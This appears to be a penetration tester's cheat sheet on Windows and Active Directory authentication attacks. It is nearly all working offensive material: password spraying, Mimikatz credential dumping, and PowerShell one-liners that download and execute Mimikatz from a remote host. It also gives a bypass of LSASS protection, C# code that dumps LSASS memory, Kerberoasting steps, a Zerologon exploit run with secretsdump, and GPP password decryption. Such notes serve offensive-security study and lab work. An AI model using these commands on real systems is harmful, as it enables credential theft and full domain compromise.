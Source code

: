 # Authentication

<details>

<summary>Password Spraying</summary>

```bash
crackmapexec smb 192.168.165.122 -u user.txt -p password --continue-on-success 
```

</details>

<details>

<summary>Dumping Creds (Mimikatz Commands)</summary>

**ALWAYS OPEN WITH ADMIN CMD.EXE**

```bash
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
 # IF ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005) --> Need bypass PPL
lsadump::sam
lsadump::secrets
lsadump::cache

sekurlsa::tickets
```

```powershell
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

* If mimikatz is not dumping out required hashes/passwords, can try `mimikatz_2_1_1_x64.exe` (version 2.1.1). From [here](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip).

</details>

<details>

<summary>Getting Past Protected Process Light (PPL) for Mimikatz</summary>

* Detecting LSASS executing as Protected Process Light?

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

* How to workaround?
  * Must download mimidrv.sys in the same folder as mimikatz.exe&#x20;

<pre><code><strong>mimikatz # !+
</strong>mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
</code></pre>

</details>

<details>

<summary>Mimikatz from dmp file</summary>

<pre><code><strong>using System;
</strong>using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
          IntPtr hFile, int DumpType, IntPtr ExceptionParam,
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
</code></pre>

* Release --> x64 --> .\Minidump.exe from local admin account&#x20;
* Lsass.dmp is saved in C:\Windows\tasks

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Service Accounts Attacks</summary>

* When user wants to access resource hosted by SPN, client requirests a service ticket that is generated by DC
* Service ticket is encrypted through the password hash of the SPN&#x20;
* Application server then decrypt and validate the service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

* The following command will display all cached Kerberos tickets for the current user.

```powershell
klist
```

* To download the service ticket with `mimikatz`

```
privilege::debug
```

```powershell
kerberos::list /export
```

* To crack the service ticket to obtain cleartext password

```bash
sudo apt update && sudo apt install kerberoast
```

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

</details>

<details>

<summary>Abusing TGT and TGS tickets</summary>

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::tickets
```

</details>

<details>

<summary>To dump the credentials of all logged-on users</summary>

```bash
mimikatz.exe
```

To engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account.

```sh
privilege::debug
```

```
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Dump Machine Acc's hashes</summary>

```bash
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rpcdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

</details>

<details>

<summary>Zerologon</summary>

* Quick Win

[https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py](https://github.com/risksense/zerologon/blob/master/set_empty_pw.py)

<pre class="language-bash"><code class="lang-bash">python3 set_empty_pw.py DC01 192.168.194.165
<strong>secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
</strong><strong># secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'htb.local/forest$@10.10.10.161'
</strong></code></pre>

</details>

<details>

<summary>GPP Passwords</summary>

* When new Group Policy Preference is created --> XML file in SYSVOL share (Groups.xml) will contain all config data (including passwords)
* Microsoft patched it in 2014 to prevent admins from putting passwords into GPP&#x20;

```xml
# Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```

</details>
